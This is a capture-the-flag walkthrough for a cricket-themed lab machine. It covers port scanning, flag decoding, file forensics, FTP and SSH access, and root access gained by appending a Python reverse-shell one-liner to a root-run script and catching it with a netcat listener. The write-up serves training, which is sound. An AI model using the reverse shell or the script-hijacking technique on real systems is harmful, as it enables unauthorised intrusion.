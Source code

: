 ```yaml
---
title: WorldCupCTF
permalink: worldcupctf
---
```

# WorldCup CTF Walkthrough
## Open Ports:
```
nmap -T4 -A $IP
```
* 21 - **ftp**
* 22 - **ssh**
* 80 - **http**

## Enumeration
### Port 80(*http*):
* In source of home page found 2 flags:
	* flag1/1{VElNRVRPUkVXSU5ELTIwMDdXT1JMRENVUF}
	* flag1/2{8wMDExMDAxMCAwMDExMTAwMSAwMDEwMTExMA==}
* On combinig the **TEXT** of both the flags i.e. *flag1/1 & flag1/2*
```
VElNRVRPUkVXSU5ELTIwMDdXT1JMRENVUF8wMDExMDAxMCAwMDExMTAwMSAwMDEwMTExMA==
```
* we get a **Base64** encoded text which on decoding :
	* **TIMETOREWIND-2007WORLDCUP_00110010 00111001 00101110**
* Taking the "2007worldcup.html" adding to the **URL**
* Looking at the **Source** of the new page we get:
	* flag2{uggcf://jjj.lbhghor.pbz/jngpu?i=55wULbbFtZb(00111000 00110101 00110000)}
* The **TEXT** of flag2 looks like encoded with *ROT13* so on decoding we get:
	* https://www.youtube.com/watch?v=55jHYooSgMo
* On directory bruteforcing we find:
	* 2 main files are found **2007.exe & 2007.txt** 
	* For *2007.exe* first we need to change the extension to *.pdf*
	* Using peepdf tool we can get our flag.
	```
	python peedpf.py -fil 2007.pdf
	extract js > flag3.pdf
	cat flag.pdf
	```
	* Inside the flag.pdf file we get : flag3{my world ashes to ashes good time bad time - 00110010 01010011 00100000}
	* for txt file **"2007.txt"** inside directory y/u/v/r/a/j
	 * It contains hints to some file named **712** which has the communication between the players.
* Now adding /712.pcapng to the **URL**
	* a *pcap* file is downloaded.
* Open the **712.pcapng** file in **WireShark**
	* filter the http protocol
	* follow HTTP stream and then download the **dhoni.jpg** form the panel.
* Look at the *metadata* of the jpg file
```
 exiftool dhoni.jpg
```
* We get the first  half of the flag : flag4{cGFzc3dvcmRfY29uc2lzdF9vZl90d29fd29yZHNfc2Vjb25kd29yZ
* Now looking at the *hexvalue* of the file
```
hexeditor dhoni.jpg
```
* At the bottom we get the second half of the flag: F9pc19NU0RIT05JX2ZpbmQtMXN0PyAwMDExMDAxMSAwMDExMDAwMSAwMDEwMTExMA==}


### Port 21(*FTP*)
* found Anonymoous login in **FTP**
	* found *zip* file name  **treasure.zip** *(passwd protected)*(
			* Using *flag3 & on decoding(Base64) flag4* we the hints for the zip file's passowrd : **andrewflintoffmsdhoni**
	* *flag.txt.txt* is extracted 
	* This has the text encoded on **BrainFuck**
	* On decoding we get flag5{seventh bowler to take 500 wickets in Test cricket knows about ...ssssssssshhhh 00110000 00110010 00110111 }

### Port 22(*SSH*)
* Every flag has some binary text at its end.
* On combinig all the binary together 
```
00110010 00111001 00101110 00111000 00110101 00110000 00110010 01010011 00100000 00110011 00110001 00101110 00110000 00110010 00110111
```
* Decoding the binary to ASCII we get some co-ordinates : **----------**
	* Search in google for the location 
		* we find the stadium **"kingsmead"** (passwd)
* Using the hint form **flag5** *{seventh bowler to take 500 wickets in Test cricket knows about}* 
	* On google serach we find **stuartbroad** (username)
* login into ssh
```
ssh stuartbroad@$IP
```
* Inside ssh we find a hidden file named *.helloWorld.sh* 
	* Inside the bash script we find a command *whoami* executed and written to /Desktop/Users.txt
* On read the Users.txt file
```
cat Desktop/Users.txt
```
* We see root by which we understand that the file is being execuated by **root**
* Adding a one liner reverse shell to the script
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* Open a netcat session on your host device.
```
nc -lvnp 1234
```
* Wait for a minute.....
* Now in the netcat session you are the root user which has the finalfalg:

#### flag6{A trophy carries dust.Memories last forever}
